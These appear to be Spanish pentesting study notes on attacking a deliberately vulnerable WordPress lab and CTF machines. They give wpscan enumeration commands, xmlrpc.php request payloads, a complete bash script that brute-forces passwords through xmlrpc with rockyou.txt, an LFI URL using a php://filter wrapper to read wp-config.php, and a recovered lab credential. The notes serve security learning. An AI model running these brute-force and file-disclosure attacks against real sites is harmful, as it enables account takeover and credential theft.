 # CONFIGURACIÓN ENTORNO VULNERABLE
Vamos a montar con Docker un entorno wordpress vulnerable utilizando este repositorio:
![[Pasted image 20230421125333.png]]
Desplegamos todo (a excepción del último comando porque sinó dará error), y vemos que tenemos el phpmyadmin corriendo por el puerto 31338:
![[Pasted image 20230421125715.png]]
![[Pasted image 20230421125735.png]]
Y por el puerto 31337 tenemos el wordpress:
![[Pasted image 20230421125810.png]]
Por ejemplo pondré esta configuración en el panel de instalación:
![[Pasted image 20230421125908.png]]
Y ya lo tenemos configurado en una versión algo antigua con ciertas vulnerabilidades:
![[Pasted image 20230421130013.png]]
Y así es como se ve el wordpress por defecto:
![[Pasted image 20230421130122.png]]
Y en el repositorio también vemos las vulnerabilidades existentes en esta versión de wordpress:
![[Pasted image 20230421130440.png]]
Y ahora para terminar de configurar todo, instalamos los plugins necesarios con el último comando:
![[Pasted image 20230421130211.png]]
# ENUMERACIÓN WORDPRESS
El primer paso es que dentro del panel de login de wordpress, podemos ver como podemos comprobar si el usuario existe o no en el sistema:
![[Pasted image 20230421130642.png]]
![[Pasted image 20230421130657.png]]
Aquí ya podríamos hacer un ataque de fuerza bruta con hydra, pero también podemos seguir enumerando el wordpress con una herramienta que se llama wpscan:
![[Pasted image 20230421131301.png]]
Y ya nos detecta automáticamente información del wordpress y si está desactualizado:
![[Pasted image 20230421131405.png]]
### ENUMERAR USUARIOS EXISTENTES WORDPRESS
Si queremos únicamente enumerar usuarios válidos en wordpress con wpscan, lo haríamos de la siguiente forma:
```bash
wpscan --url http://10.10.123.20/wordpress/ -e u
```
![[Pasted image 20230825163135.png]]
Y con los parámetros vp, u podemos enumerar plugins vulnerables y usuarios existentes:
![[Pasted image 20230421131525.png]]
Y nos encuentra el usuario mario e incluso otro más llamado Editor:
![[Pasted image 20230421131556.png]]
## ENUMERAR VULNERABILIDADES PLUGINS WORDPRESS
Es posible que en wordpress exista vulnerabilidades incluso si se encuentra actualizado en su última versión debido a los plugins. Por tanto, de forma introductoria, podemos listar los plugins instalados en el sistema haciendo un petición con curl y filtrando en donde ponga plugins:
![[Pasted image 20230421132645.png]]
Aunque también con la herramienta wpscan podemos hacer un análisis de vulnerabilidades de los plugins de wordpress, pero necesitamos la API de esta herramienta:
![[Pasted image 20230421132036.png]]
Una vez con esta API, la podemos poner en el parámetro oportuno de la herramienta y ahora ya sí va a mostrarnos los plugins vulnerables:
![[Pasted image 20230421132147.png]]
Y nos las encuentra:
![[Pasted image 20230421132205.png]]
E incluso si filtramos ya tenemos un RCE sin estar autenticado:
![[Pasted image 20230421132300.png]]
Ahora ya con esta información podemos buscarlo en searchsploit:
![[Pasted image 20230421132949.png]]
# ENUMERAR XMLRPC + ATAQUES FUERZA BRUTA WORDPRESS
También es posible que podamos enumerar este archivo el cual nos sirve para obtener credenciales de usuarios, ya que se trata de un archivo que permite la comunicación de wordpress y otros sistemas usando php; y si lo buscamos en el navegador vemos que existe pero que sólo tramita peticiones por POST:
![[Pasted image 20230421133400.png]]
Por tanto con curl vamos a enviarle una petición por POST y vemos que sí nos devuelve algo en XML:
![[Pasted image 20230421133532.png]]
Y ahora que vemos que existe este fichero, buscamos en google como explotar vulnerabilidades haciendo uso de este fichero:
![[Pasted image 20230421133725.png]]
Y nos dicen que tenemos que tramitar esto:
![[Pasted image 20230421133752.png]]
```php
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 135

<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```
Por tanto pegamos este código en un fichero xml:
![[Pasted image 20230421133907.png]]
Y ahora este fichero lo tramitamos por POST contra el xmlrpc de wordpress:
![[Pasted image 20230421134022.png]]
Y el servidor nos responde con todos los métodos disponibles:
![[Pasted image 20230421134102.png]]
Y si miramos más en la página, vemos que nos muestran como hacer un ataque de fuerza bruta:
![[Pasted image 20230421134340.png]]
```php
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{your username\}\}</value></param> 
<param><value>\{\{your password\}\}</value></param> 
</params> 
</methodCall>
```
Y vemos que aquí si ponemos unas credenciales correctas y lo ejecutamos como antes, nos va a funcionar correctamente:
![[Pasted image 20230421134520.png]]
![[Pasted image 20230421134540.png]]
En este punto podríamos hacer un ataque de fuerza bruta, tanto con un script de bash o con la propia herramienta wpscan:
```bash
#!/bin/bash

#!/bin/bash

function salir() {
    exit 1
}

trap salir SIGINT

for i in $(cat rockyou.txt); do
    variable=$(cat <<FIN
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>Elliot</value></param> 
<param><value>$i</value></param> 
</params>     
</methodCall>
FIN
    )

    echo -e "$variable" >> enviar.xml
    echo -e "[+] Probamos con la contraseña $i"

    curl -s -X POST 'http://10.10.126.89/xmlrpc.php' -d@enviar.xml >> log.log

    if [ ! "$(cat log.log | grep 'Incorrect username or password.')" ]; then
         echo -e "[+] La contraseña para Elliot es $i"
         exit 0
    fi

    sleep 1

rm log.log enviar.xml

done
```
![[Pasted image 20230421143424.png]]
O también directamente desde la herramienta, lo cual será más rápido:
![[Pasted image 20230421143525.png]]
Y nos la encuentra:
![[Pasted image 20230421143548.png]]
# OBTENCIÓN WP-CONFIG.PHP
Dentro de los wordpress hay un fichero de configuración donde se guardan credenciales de los usuarios registrados; y podemos llegar a él explotando distintas vulnerabilidades, como un LFI detectando primero un plugin vulnerable con wpscan en la máquina [[MAQUINA ALL IN ONE]]
```bash
wpscan --url http://10.10.123.20/wordpress/ -e p
```
Y encontramos este que es vulnerable:
![[Pasted image 20230825163230.png]]
Tenemos un scrip

```bash
https://wpscan.com/vulnerability/8609
```
![[Pasted image 20230825164108.png]]
Lo probamos en el navegador y funciona:
![[Pasted image 20230825164125.png]]
Pero si queremos obtener el fichero wp-config.php, tenemos que hacer uso de un wrapper:
```bash
http://10.10.6.206/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php
```
![[Pasted image 20230826170029.png]]
Esto lo tenemos que decodificar ya que viene en base64:
![[Pasted image 20230826170206.png]]
Y vemos las credenciales del usuario elyana:
```bash
elyana:H@ckme@123
```